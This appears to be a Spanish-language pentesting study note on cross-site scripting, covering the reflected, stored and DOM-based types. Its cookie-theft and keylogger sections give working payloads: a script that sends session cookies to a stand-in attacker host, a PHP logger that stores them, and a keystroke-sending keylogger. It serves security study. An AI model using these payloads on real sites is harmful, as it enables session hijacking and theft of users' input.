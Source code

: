 #web 

*XSS* ó *Cross Site Scripting*, es una vulnerabilidad que permite al atacante controlar parte del contenido de una aplicación web, ejecutando código malicioso en la página web de un usuario sin su conocimiento o consentimiento De forma que pueda:

- Modificar el contenido del sitio en tiempo real.
- Inyectar contenido malicioso.
- Robar cookies de sesión.
- Hacer acciones sobre la web como si fuera un usuario legítimo.
- ...

#### Actores

- El **sitio web** vulnerable.
- Los **usuarios** de la página.
- El **pentester**.

Normalmente, esta vulnerabilidad se debe a una mala sanitización de los inputs del usuario (peticiones, cookies, formularios...). La única protección para este tipo de ataques es **nunca confiar en los inputs de un usuario**.

Hay tres tipos *reflejadas* (*reflected*), *persistentes* (*persistent*) ó *DOM based*.

### Reflected XSS

Son aquellos en los que el payload viaja en la **petición** que manda **el navegador de la víctima** al servidor. De forma que se debe mandar un enlace (p.e. mediante *phishing*) a la víctima que en caso de ser abierto pondrá en marcha el ataque.

Se llama *reflejado* porque la víctima ejecuta el payload, pero el output se ve reflejado en la máquina del atacante.

Algunos navegadores filtran este tipo de ataques, impidiendo que se lleven a cabo.

Algunas funciones útiles son:

- **fetch**, permite hacer una petición a una dirección (a tu máquina de atacante ó a un ***webhook***)
- **XMLHttpRequest**, permite administrar peticiones http:

```js
var request = new XMLHttpRequest();
request.open("<url>");
request.send();
```


### Stored XSS

Ocurre cuando se envía el payload al servidor y se almacena. Cuando se accede al recurso se pone en marcha el ataque. Se llama *persistente* ó *almacenado* porque el payload se ejecuta cada vez que se accede al recurso.

Los lugares donde suele encontrarse este tipo de XSS son los formularios que el usuario envía y se ven luego reflejados en la página (posts de foros, comentarios, parámetros del perfil, ...).

### DOM-Based

Este tipo de XSS se produce cuando el código malicioso **se ejecuta en el navegador del usuario a través del DOM** (Modelo de Objetos del Documento). Esto se produce cuando el código JavaScript en una página web modifica el DOM en una forma que es vulnerable a la inyección de código malicioso.

- #### Robo de cookies mediante XSS

Mediante un ataque de XSS es posible robar una cookie que en la mayoría de los casos es sinónimo de secuestrar la sesión de un usuario.

Como ya sabemos, javascript puede acceder a las cookies siempre y cuando no tengan activada la flag HttpOnly, siendo posible listarlas con un payload como:

```html
<script>alert(document.cookie)</script>
```

Ó mandarlas a un sitio malicioso:

```html
<script>
var im = new Image();
im.src = "http://attaker.site/log.php?q="+document.cookie;
</script>
```

Tratándola como  una imagen, el navegador no sabrá si se trata de una imagen realmente, guardándola en dicha ruta. Y mediante *log.php* lograremos que sea el propio sitio de destino el que la guarde como archivo de texto:

```php
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename, 'a');
$cookie=$_GET['q'];
fwrite($fp, $cookie);
fclose($fp);
?>
```

- #### Keylogger

Se hace utilizando el método **onkeypress**:

```js
var k = "";
document.onkeypress = function(e){
	e = e || window.event; //Opcional
	k+=e.key;
	var i = new Image();
	i.src = "<url>" + k;
};
```